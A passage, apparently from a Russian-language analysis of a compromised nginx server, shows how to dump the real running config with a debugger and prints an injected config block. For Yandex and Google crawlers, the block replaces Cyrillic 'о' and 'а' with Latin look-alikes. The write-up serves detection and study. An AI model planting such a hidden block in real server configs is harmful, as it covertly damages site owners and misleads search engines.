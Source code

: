 По шагам:
* устанавливаем точку останова в функции main()
* запускаем программу
* изменяем значение переменной определяющей вывод конфига ngx_dump_config=1
* продолжаем/завершаем программу

Как видим реальный конфиг отличается от нашего, выделяем из него паразитный кусок:

```
map $http_user_agent $sign_user_agent
{
"~*yandex.com/bots" 1;
"~*www.google.com/bot.html" 1;
default 0;
}

map $uri $sign_uri
{
"~*/wp-" 1;
default 0;
}

map о:$sign_user_agent:$sign_uri $sign_o
{
о:1:0 o;
default о;
}

map а:$sign_user_agent:$sign_uri $sign_a
{
а:1:0 a;
default а;
}

sub_filter_once off;
sub_filter 'о' $sign_o;
sub_filter 'а' $sign_a;
```
Рассмотрим по порядку что же здесь происходит.

Определяются User-Agent'ы yandex/google:
```
map $http_user_agent $sign_user_agent
{
"~*yandex.com/bots" 1;
"~*www.google.com/bot.html" 1;
default 0;
}
```

Исключаются служебные страницы wordpress:
```
map $uri $sign_uri
{
"~*/wp-" 1;
default 0;
}
```
